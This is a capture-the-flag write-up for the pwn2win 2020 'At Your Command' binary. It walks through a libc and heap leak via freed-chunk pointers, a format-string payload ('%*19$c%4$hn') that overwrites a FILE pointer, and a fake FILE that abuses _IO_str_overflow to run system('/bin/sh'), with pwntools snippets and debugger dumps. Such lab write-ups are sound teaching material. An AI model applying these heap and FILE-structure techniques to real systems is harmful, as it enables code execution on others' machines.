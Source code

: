 # At Your Command

This was a pwnable challenge from pwn2win 2020.

Checksec reveals that the binary has all protections enabled:
```bash
$ checksec command
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Additionally, `libc 2.27` was provided together with the challenge binary.

When running the binary, the classic CTF style menu is shown.

```bash
$ ./command
Welcome to the command system
=============================
Your name: myname
Welcome myname

Choose an option:
1. Include command
2. Review command
3. Delete command
4. List commands
5. Send commands
```

* `Include`: Add a new chunk of memory consisting of an integer `priority` and reading 0x170 chars into the 0x180 large char buffer `command`
* `Review`: Show a command at the provided index
* `Delete`: Delete the command at the provided index  
* `List`: Show all registered commands
* `Send`: Open a file on the filesystem and write all commands to disk, then exit the program.

The command struct used by all those commands looks like this:

```c
struct __attribute__((aligned(8))) command_t
{
  __int64 priority[1];
  char command[0x180];
};
```

There are two bugs in the program. First in the delte function, only the first 8 bytes (`priority`) of the `command_t` struct are set to `0`:

```c
int __fastcall delete(command_t **mem)
{
  command_t *index; // rax
  int idx; // [rsp+1Ch] [rbp-4h]

  printf("Command index: ");
  LODWORD(index) = memset16_fgets16_atoll();
  idx = (int)index;
  if ( (int)index < 0 || (int)index > 9 )
    return (int)index;
  index = mem[(int)index];
  if ( !index )
    return (int)index;
  free(mem[idx]);
  mem[idx] = 0LL; // only sets first 8 bytes to 0.
  LODWORD(index) = puts("The command has been successfully deleted");
  return (int)index;
}
```

This means that all data in the `command` field persists. 

Recall, how a free memory chunk looks like (not tcache, larger than fastbin):

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

So, if we can free a chunk into the unsorted bin, it will contain a `bk` pointer at the start of the `command` field when it is allocated again.
This pointer will point into the `main_arena`, which is in `libc`.

First we allocate 10 chunks. Then we free them in reverse order, so they do not coalesce with the wilderness. The first 7 chunks go into the `0x190` tcache, the last 3 will be merged together to a 0x4b0 chunk in the unsorted bin. This last chunk will contain the `fd` and `bk` pointers into `libc`.

We now empty the tcache by allocating 7 chunks. The next allocation will now split the 0x4b0 chunk and take `0x190` from it for the 8th allocataion. By providing only 1 char to the `command` field, only the LSB of the  `bk` pointer will be overwritten. Using `review`, the `bk` pointer can be leaked and the `libc` base address can be determined from there. Note, that by overwriting the LSB with a constant value, the offset from the slightly overwritten `bk` to `libc` base will still always remain the same.

In code, this looke like this:
```python
# fill tcache and prepare large chunk for libc and heap leak
for i in range(10):
    include(i, "A"*8)
for i in range(10):
    delete(9-i)

# fill tcache
for i in range(7):
    include(i, "B")

# leak libc address from arena pointers (1 byte overwrite)
include(7, "C")
leak = review(7, True)
libc.address = leak - 0x3ecf43 # offset to base of libc
log.success("Libc base: " + hex(libc.address))
```

For this challenge, we do not necessarily need a heap leak. We did it anyway, as having more information never hurts.
Remember that we allocated and freed 10 chunks and not only 8, so that we would have a large chunk (0x4b0) in the unsorted bin. When the 8th allocation happens, malloc will see that there is no chunk of size 0x190 in `tcache`. Then it will notice that it has no chunk of that exact size in the unsorted bin. Thus, it will move the `0x4b0` sized chunk into the large bin. When this happens, it will write `fd_nextsize` and `bk_nextsize` into the 3rd and 4th address of the chunk. As currently there is only one large bin in use, they both will point the the chunk itself, meaning they contain heap pointers. Now, malloc will split the `0x4b0` chunk and take `0x190` from it to satisfy our request.

This chunks looks as follows:
```bash
gef>  x/32gx 0x55891fa40250
0x55891fa40250:	0x0000000000000000	0x0000000000000191 # header
0x55891fa40260:	0x0000000000000000	0x00007f21289ac043 # 0 in priority field, bk ptr
0x55891fa40270:	0x000055891fa40250	0x000055891fa40250 # fd_nextsize, bk_nextsize -> heap ptrs
0x55891fa40280:	0x0000000000000000	0x0000000000000000
```

Thus, by providing a command of length 8, we can overwrite the bk pointer and leak the heap pointer:

```python
# free chunk again
delete(7)
# overwrite bk pointer so we can leak heap ptrs 
include(7, "D"*8)
heap = review(7)
log.success("Heap: " + hex(heap))
```

Now that we have a heap and libc leak, we want to get code execution. The `send` function has a format string vulnerability, when it uses `snprintf` to directly print the provided username of length 0xC. 

```c
 for ( i = 0; i <= 9; ++i ) //store all commands
  {
    if ( mem->priority[i] )
      fprintf(*stream, "%lld:%s\n", *(_QWORD *)mem->priority[i], mem->priority[i] + 8);
  }
  snprintf(&src, 0xCuLL, name); // vulnerable
  strcpy(&s, "Mr. ");
  strcat(&s, &src);
  printf("You command %s!\n", &s);
```


Also recall, that `send` opens a FILE, to dump the content of all commands. Our exploit strategy now is to create a fake FILE on the heap, in one of the `command_t` chunks and use the format string vulnerability to change the original FILE pointer to point to our fake FILE.
 
The stack looks like this before the `snprintf` call:
```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x0000000000000000	0x0000000000000000
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf3f0	0x000000000000000c # FILE pointer, size of 0xc
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # the 10 command_t ptrs
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```
The FILE pointer can be overwritten using `%4$hn`. Now we need to know what value to write there. The bottom 3 nibbles (half a byte) will always stay the same, but the next nibble will be affected by ASLR. We can now either bruteforce it with a 1/16 chance, or use some format string black magic. We specify `%*19$c%4$hn` as the payload.
`%*19$c` will read the value at `0x7ffe8e874958`, containing the pointer to the fake FILE, and create a padding (`*`) of that length, effectively writing that number into `0x7ffe8e874940` using `%4$n`. The offset 19 was discovered using GDB and trial and error. If someone knows why it's this exact offset, let me know!

After the snprintf, the stack looks like this. We notice, that the FILE pointer has been changed and now points to chunk1:

```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x2020202020202020	0x0000000000202020
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf8a0	0x000000000000000c # modified FILE ptr, same as chunk1
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # chunk0, chunk1
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```

We now control the FILE through chunk 1. In libc versions up to 2.23 it was possible to create a fake vtable to execute arbitrary commands. In libc 2.27 this is no longer possible.

But there exists an article that explains how creating a fake `vtable` that will call `_IO_str_overflow` it is possible to get code execution: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/. I highly recommend you to thoroughly read that article, it is very informative. 

In summary, it describes how to change `(char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);` to `fp->system("/bin/sh")`. 

Thus, we prepare the fake FILE in such a way, that `system("/bin/sh")` will be executed, once the FILE is closed.

We can now run the exploit, which will give us a shell, allowing us to read the flag: `CTF-BR{_wh4t_4_fUn_xpl_ch41n_mY_c0mm4nd3r_}`!
(The full exploit script is included in the Github repository)